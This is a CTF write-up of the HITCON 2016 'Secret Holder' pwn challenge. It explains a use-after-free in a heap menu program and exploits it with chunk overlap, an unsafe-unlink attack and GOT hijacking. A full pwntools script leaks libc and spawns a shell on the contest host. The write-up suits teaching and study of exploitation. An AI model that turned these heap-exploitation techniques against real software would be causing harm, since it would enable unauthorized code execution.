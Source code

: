 ```yaml
---
title: HITCON CTF 2016 Quals -- Secret Holder
layout: single
comments: true
share: true
related: true
author_profile: true
permalink: "/:title/"
tags:
- Python
- CTF
- Pwnable
- use_after_free
- heap
- HITCON
- heap_overflow
categories:
- write-ups
date: '2016-10-10 08:10:00 +0000'
---
```


**Category:** pwn
**Points:** 100

<!-- more -->  

I did not finish the challenge during the contest, but was able to solve it after the game. Damn if only I can fuzz some more...

64 bit ELF,  with Partial RELRO, canary & NX enabled, no PIE.  
Program allow us to:

* keep secret : new a secret ( using `calloc()` )
* wipe secret : delete a secret
* renew secret : edit a secret

There are three kinds of secret in the program: 

* `small` : secret with buffer size 40
* `big` : secret with buffer size 4,000
* `huge` : secret with buffer size 400,000

There's a Use-After-Free vulnerability in the `wipe` function:
```c
v0 = atoi(&s);
switch ( v0 )
{
    case 2:
        free(secret_buf_big);
        has_keep_big = 0;
        break;
    case 3:
        free(secret_buf_huge);
        has_keep_huge = 0;
        break;
    case 1:
        free(secret_buf_small);
        has_keep_small = 0;
        break;
}
```
When wiping a secret, it does not check the `has_keep_XXX` flag ( a flag that indicates now there's a small/big/huge secret in the program). So for example if we `keep(small)` --> `wipe(small)` --> `keep(big)` --> **`wipe(small)`**, it will free the `big` buffer, but we can still `renew(big)`

During the contest I did not know how to exploit the service. I successfully overlapped the `small` and the `big` buffer, but it only made me able to overwrite the top_size, which is useless since we can't control the size of the `calloc` function ( thus we can't do the [House of Force](https://github.com/shellphish/how2heap/blob/master/house_of_force.c) attack ). I was also failed to overlapped these two buffer with the different base address ( that is, I can only overlapped `small` & `big` with the same base heap address), so I was unable to overflow the heap buffer and overwrite the chunk header.  

After I asked the author of this challege, I realize that the key point of solving this challenge is to **exploit the `huge` and the `big`'s memory chunk**. 

While solving this challenge, I thought that if the malloc size was larger than `0x20000`, glibc will always use `mmap` to allocate the memory space. But I was wrong -- if we `keep(huge)`--> `wipe(huge)`--> `keep(huge)`, we will found that the second `huge` buffer was allocated by the `malloc` function, not `mmap` !! ( Thanks to the god damn `sysmalloc` !! )

So here's how we gonna exploit it:

* Use `keep` and `wipe` to make `small` & `huge` buffer be on the same heap address.
* `keep(big)` and make `big` buffer adjacent to the end of the `small` buffer.
* By doing `renew(huge)`, we'll be able to overflow the whole `big` buffer, thus we can create a fake **smallbin** memory chunk at the address of the `big` buffer.  
* By creating some fake chunks, we can use the [unsafe unlink](https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c) attack to overwrite `&huge_buf` ( all three buffer's address are store in the global data section ), so now the `huge`'s buffer will be lying on the global data section.
* Now we can overwrite all three buffer address ( data pointer ) by doing `renew(huge)`
* `renew(small/huge/big)` to overwrite the content of any address.  

After we overwrite the `huge`'s buffer address, we can try to do the GOT hijacking attack. But first we'll have to leak some address. The program itself did not output any of our input , so I decide to hijack  `free`'s GOT first. 

By overwriting `free`'s GOT into `puts@plt`, and `small`'s buffer into `__libc_start_main@got.plt`, we are able to leak the libc's address by doing `wipe(small)`, since it'll call `free(small)`, which is now `puts(_libc_start_main@got.plt)`.

After that we're able to overwrite some GOT and hijack the control flow. Here I overwrite `puts`'s GOT into the address of the [one-gadget](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf), which will make the program spawn a shell whenever it tries to call `puts` to print out some message.  

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "52.68.31.117"
PORT = 5566
ELF_PATH = "./secret_holder_noalarm"
LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def keep(ch, secret):
    r.sendlineafter("3. Renew secret\n", "1")
    r.sendlineafter("3. Huge secret\n", str(ch))
    r.sendafter("secret: \n", secret)

def wipe(ch):
    r.sendlineafter("3. Renew secret\n", "2")
    r.sendlineafter("3. Huge secret\n", str(ch))

def renew(ch, secret):
    r.sendlineafter("3. Renew secret\n", "3")
    r.sendlineafter("3. Huge secret\n", str(ch))
    r.sendafter("secret: \n", secret)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    keep(1, "A"*8)
    keep(2, "A"*8)
    keep(3, "A"*8)
    wipe(1)
    wipe(2)
    wipe(3)

    keep(3, "3"*8) # now huge chunk will use malloc, not mmap!!
    wipe(1)
    keep(1, "A"*8) # now huge = small
    keep(2, "2"*8) # big will adjacent to the end of the small buffer

    # 0x6020a8 stores the huge buffer's address
    fake_fd = 0x6020a8 - 0x18
    fake_bk = 0x6020a8 - 0x10

    # overwrite big's chunk data with fake chunk data for unsafe unlink
    payload = p64(0) + p64(0x21) # fake prev_chunk header
    payload += p64(fake_fd) + p64(fake_bk) # fake fd and bk
    payload += p64(0x20) + p64(0x90) # we are going to free here
    payload += "B"*0x80
    payload += p64(0x90) + p64(0x91) # fake next_chunk header
    payload += "C"*0x80
    payload += p64(0x90) + p64(0x91) # fake next_next_chunk header
    renew(3, payload)
    
    wipe(2) # free big, trigger unsafe unlink

    # now huge_buf will point to global data section
    # renew huge, overwrite small, big & huge buffer address
    payload = "A"*0x10
    payload += p64(0)
    payload += p64(0x6020b0) # &small_buf
    payload += p64(elf.got['free'])
    renew(3, payload)
    
    renew(1, p64(elf.plt['puts'])) # make free(buf) = puts(buf)
    
    # make small_buf = libc_start_main got
    # wipe(small) = puts(small) = puts(got) = leak address
    payload = p64(elf.got['__libc_start_main']) + p32(1)*3
    renew(3, payload)
    wipe(1)
    libc.address += u64(r.recvline().strip().ljust(8, "\x00")) - libc.symbols['__libc_start_main']
    one_gadget = libc.address + 0x4525a
    log.success("libc_base: "+hex(libc.address))
    log.success("one_gadget: "+hex(one_gadget))

    # hijack puts@got.plt, make it jump to one_gadget
    payload = p64(elf.got['puts']) + p32(1)*3
    renew(3, payload)
    renew(1, p64(one_gadget))

    r.interactive()


```

Such a shame that I didn't solve this challenge ...... I might be able to solve it if I did some more fuzzing.....

flag: `hitcon{The73 1s a s3C7e+ In malloc.c, h4ve y0u f0Und It?:P}`